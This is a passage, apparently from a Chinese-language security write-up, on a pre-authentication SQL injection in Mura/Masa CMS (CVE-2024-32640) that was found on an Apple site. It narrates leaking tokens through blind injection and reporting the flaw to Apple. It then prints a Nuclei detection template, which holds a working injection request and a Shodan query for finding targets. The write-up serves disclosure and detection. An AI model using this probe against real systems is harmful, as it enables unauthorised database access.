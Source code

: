 然而在Apple的环境中，只遇到了一个Unhandled Exception错误，没有任何查询相关的信息，从而将其变成了SQL盲注，幸运的是，token和用户 ID 是 UUID，因此泄露它们相对简单。  
  
利用一些脚本编写，完成任务：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jmZHnoibapuiaRHDBMQ9iaRNRsdwG0m18VZ89AeTTC3nicXCVdvH6qvFVIBZZXFWHtVIaWDDU0opiaNQ5g/640?wx_fmt=png&from=appmsg "")  
  
研究人员立即向苹果提交了漏洞报告，包括演示登录帐户的PoC（概念验证），同时理论上向他们提供了 RCE 详细信息。  
# 通过Nuclei检测  
  
可以利用以下 Nuclei 模板来识别 SQL 注入漏洞：  
```
id: CVE-2024-32640

info:
  name: Mura/Masa CMS - SQL Injection
  author: iamnoooob,rootxharsh,pdresearch
  severity: critical
  description: |
    The Mura/Masa CMS is vulnerable to SQL Injection.
  reference:
    - https://blog.projectdiscovery.io/mura-masa-cms-pre-auth-sql-injection/
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-32640
  impact: |
    Successful exploitation could lead to unauthorized access to sensitive data.
  remediation: |
    Apply the vendor-supplied patch or update to a secure version.
  metadata:
    verified: true
    max-request: 3
    vendor: masacms
    product: masacms
    shodan-query: 'Generator: Masa CMS'
  tags: cve,cve2022,sqli,cms,masa,masacms

http:
  - raw:
      - |
        POST /index.cfm/_api/json/v1/default/?method=processAsyncObject HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        object=displayregion&contenthistid=x\'&previewid=1

    matchers:
      - type: dsl
        dsl:
          - 'status_code == 500'
          - 'contains(header, "application/json")'
          - 'contains_all(body, "Unhandled Exception")'
          - 'contains_all(header,"cfid","cftoken")'
        condition: and
```  
# 结论  
  